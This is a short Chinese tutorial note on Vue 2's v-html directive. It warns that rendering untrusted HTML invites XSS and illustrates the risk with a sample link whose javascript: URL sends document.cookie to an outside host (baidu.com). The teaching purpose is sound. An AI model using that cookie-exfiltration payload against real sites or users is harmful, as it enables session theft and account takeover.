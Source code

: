 ```yaml
---
title: Vue v-html
date: 2022-05-22
categories:
        - 前端框架
tags:
        - Vue
        - 前端
        - Vue 2
        - Note
---
```


# v-html

设置元素的 innerHTML，会覆盖元素中的所有内容。但与`v-text`不同的是，它会识别 HTML 元素

## 安全性

在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 `XSS` 攻击。只在可信内容上使用 `v-html`，**永不**用在用户提交的内容上。

**HTML**

```HTMl
<div id="app">
    <div v-html="msg">原内容</div>
</div>
```

**JavaScrip**

```JavaScrip
var vm = new Vue({
	el: '#app',
	data: {
		msg: '<a href=javascript:location.href="http://www.baidu.com?" + document.cookie>XXS 攻击</a> ',
	},
});

Vue.config.productionTip = false;

```
